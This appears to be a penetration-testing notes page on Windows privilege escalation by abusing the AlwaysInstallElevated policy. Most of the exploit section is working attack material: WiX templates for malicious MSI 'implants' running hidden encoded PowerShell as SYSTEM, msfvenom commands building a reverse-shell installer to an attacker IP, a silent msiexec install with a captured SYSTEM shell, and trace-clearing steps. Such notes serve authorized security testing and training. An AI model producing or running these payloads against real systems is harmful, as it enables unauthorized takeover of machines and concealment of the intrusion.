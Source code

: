 # Living off the Land

One of the easiest privilege escalation vulnerabilities related to the group policy settings or the workstation was configured that allows the users to install whatever application that ends with an extension `.msi`. Enumeration is very easy and it doesn't require that much effort to find it. The only thing you should keep in mind that the `REG_DWORD` value is `0x1` does give you an indication that it can be abused from the least privileges.

## 01 - Detect

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

## 02 - Exploit

### 2.1 - Compile manually

Install the packages.

```
$ sudo apt install -y msitools wixl
```

#### 2.1.1 - Fileless implant

At minimum, the `Property` line needs to be changed to the command you want to execute. Also needs to be changed in order to build the MSI installer.

```xml
<File Id="ApplicationFile1" Source="example.exe"/>
```

The important parts to note of the `CustomAction` tag.

```xml
<Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload></Property>
<CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
</CustomAction>
```

Finally, we have our `InstallExecuteSequence` tag, which is responsible for executing our custom actions in order. So, when executed our first custom action will be launched, forcing our payload to run as the SYSTEM account. Our second custom action will be launched, causing some invalid VBScript to be executed and stop the install process with an error.

```xml
<InstallExecuteSequence>
 <Custom Action="SystemShell" After="InstallInitialize"></Custom>
 <Custom Action="FailInstall" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
```

Name this file `msigen.wix`.

```xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
 <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
  <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
  <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>

  <Directory Id="TARGETDIR" Name="SourceDir">
   <Directory Id="ProgramFilesFolder">
    <Directory Id="INSTALLLOCATION" Name="Example">
     <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
      <File Id="ApplicationFile1" Source="Updater.exe"/>
     </Component>
    </Directory>
   </Directory>
  </Directory>

  <Feature Id="DefaultFeature" Level="1">
   <ComponentRef Id="ApplicationFiles"/>
  </Feature>

  <Property Id="cmdline">powershell.exe -nop -w hidden -e <base64_payload>
  </Property>

  <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
  <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
   invalid vbs to fail install
  </CustomAction>

  <InstallExecuteSequence>
   <Custom Action="SystemShell" After="InstallInitialize"></Custom>
   <Custom Action="FailInstall" Before="InstallFiles"></Custom>
  </InstallExecuteSequence>

 </Product>
</Wix>
```

#### 2.1.2 - Dropper implant

```xml
<?xml version='1.0' encoding='windows-1252'?>
<Wix xmlns='http://schemas.microsoft.com/wix/2006/wi'>
  <Product Name='Foobar 1.0' Id='ABCDDCBA-86C7-4D14-AEC0-86416A69ABDE' UpgradeCode='ABCDDCBA-7349-453F-94F6-BCB5110BA4FD'
    Language='1033' Codepage='1252' Version='1.0.0' Manufacturer='Acme Ltd.'>

    <Package Id='*' Keywords='Installer' Description="Acme's Foobar 1.0 Installer"
      Comments='Foobar is a registered trademark of Acme Ltd.' Manufacturer='Acme Ltd.'
      InstallerVersion='100' Languages='1033' Compressed='yes' SummaryCodepage='1252' />

    <Media Id='1' Cabinet='Sample.cab' EmbedCab='yes' DiskPrompt="CD-ROM #1" />
    <Property Id='DiskPrompt' Value="Acme's Foobar 1.0 Installation [1]" />

    <Directory Id='TARGETDIR' Name='SourceDir'>
      <Directory Id='ProgramFilesFolder' Name='PFiles'>
        <Directory Id='Acme' Name='Acme'>
          <Directory Id='INSTALLDIR' Name='Foobar 1.0'>

            <Component Id='MainExecutable' Guid='ABCDDCBA-83F1-4F22-985B-FDB3C8ABD471'>
              <File Id='FoobarEXE' Name='FoobarAppl10.exe' DiskId='1' Source='Updater.exe' KeyPath='yes'/>
            </Component>

          </Directory>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id='Complete' Level='1'>
      <ComponentRef Id='MainExecutable' />
    </Feature>

  </Product>
</Wix>
```

For fileless malware just make an empty file `touch Updater.exe` unless if it's a dropper then generate with `msfvenom` implant. Then build a MSI installer.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=53 -f exe -o Updater.exe

$ wixl -v msigen.wix -o implant.msi
Loading msigen.wix...
Building implant.msi...
Writing implant.msi...
```

### 2.2 - Generate via `msfvenom`

We can generate an implant just by using the `-f msi` flag but this type we'll use a different payload module to create a new user account.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=53 -f msi -o implant.msi
```

After you transferred this malicious installer to the compromised Windows target. This what you need to run the `msiexec` command to install it.

| Flag     | Description                                            |
| -------- | ------------------------------------------------------ |
| `/quiet` | Suppress any messages to the user during installation. |
| `/qn`    | No GUI                                                 |
| `/i`     | Regular (vs. administrative) installation              |

```
C:\> msiexec /quiet /qn /i implant.msi

$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.195.194.
Ncat: Connection from 10.10.195.194:49794.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\> whoami
nt authority\system
```

## 03 - Cleanup

After that clear the trace with the following commands to carry on with the rest of the cyber penetration engagement

```
C:\> msiexec /x implant.msi /q

C:\> del implant.msi
```

---
## References

- [Mandiant: msi-search](https://github.com/mandiant/msi-search)

- [Mandiant: Escalating Privileges via Third-Party Windows Installers](https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)

- [MSIFortune - LPE with MSI Installers or MSI - Might (be) stupid idea](https://badoption.eu/blog/2023/10/03/MSIFortune.html)
